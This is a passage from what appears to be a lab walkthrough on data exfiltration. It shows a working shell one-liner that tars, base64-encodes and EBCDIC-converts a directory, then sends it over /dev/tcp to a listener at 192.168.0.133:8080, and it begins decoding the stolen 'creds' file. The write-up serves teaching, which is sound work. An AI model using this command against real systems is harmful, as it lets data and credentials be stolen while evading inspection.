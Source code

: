     ![Connect to victim1 from Jumpbox](ssh-from-jb-to-victim1.png)

3. Now, we will use the **TCP Socket exfiltration** method. We will also use **data encoding**, a reversible form of data representation, and **archiving**, so it is hard for someone to examine the data during the trasmission, as it will be in a non-human readable format.

    ```shell
    tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
    ```
    
    Let's break down this command step by step:

    1. `tar zcf - task4/` This command creates a *compressed tarball* (archive) of the `task4` directory and sends the output to the standard output (indicated by `-`) using the `tar` utility. Here's what each option does:
        - `z` Compress the archive using gzip.
        - `c` Create a new archive.
        - `f` Specify the archive file.
        - `-` Send the output to stdout (standard output) instead of a file.
        - `task4/` The directory to be archived.

    2. `|` This is a *pipe operator*, which takes the output of the previous command and passes it as input to the next command.
 
    3. `base64` This command encodes the tarball using *Base64 encoding*. Base64 is a method of encoding binary data into a text-based format.

    4. `|` Another pipe operator.

    5. `dd conv=ebcdic` This command is using the `dd` utility to perform low-level data copying and conversion. The `conv=ebcdic` option is used to convert the data from *ASCII* to *EBCDIC* encoding. *EBCDIC* is another character encoding standard, mostly used on older IBM systems.

    6. `> /dev/tcp/192.168.0.133/8080` This part of the command redirects the output to the IP address 192.168.0.133 on port 8080 using a TCP socket.

    Once we pass the above command, a connection will be received from `victim1` along with the required data in the `/tmp/` directory.

    ![Connection and data received](conn-received.png)

4. We have successfully transferred the data in a non-human readable format:

    ![Encoded data](encoded_data.png)

    We now need to decode and unarchive it:

    ```shell
    # move the /tmp/ directory
    cd /tmp/

    # decode the data
    dd conv=ascii if=task4-creds.data | base64 -d > task4-creds.tar
